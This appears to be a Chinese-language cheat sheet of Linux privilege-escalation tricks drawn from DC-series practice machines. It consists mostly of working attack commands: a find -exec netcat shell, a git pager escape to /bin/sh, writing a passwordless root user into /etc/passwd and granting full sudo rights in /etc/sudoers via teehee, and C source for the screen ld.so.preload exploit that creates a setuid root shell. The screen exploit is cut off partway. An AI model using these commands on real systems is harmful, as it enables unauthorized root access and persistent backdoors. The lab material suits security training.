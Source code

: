 #### find提权

案例可见DC1的提权

```bash
find aaa - exec netcat -lvp 5555 -e /bin/sh \ # 反弹
find . -exec /bin/sh \; # 直接提权
```

#### Git提权

案例可见DC2的提权

https://gtfobins.github.io/gtfobins/git/

```
sudo -l

sudo git -p help config
!/bin/sh
```

#### teehee提权

案例参考可见DC4

```bash
eehee --help
1.直接写个 root 权限用户
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
cat /etc/passwd | grep '/bin/bash'
su test
whoami
2.在 sudoers 里给 charles 所有权限
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
sudo -l
sudo su
```

#### screen提权

案例参考可见DC5

首先kali运行如下

```
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```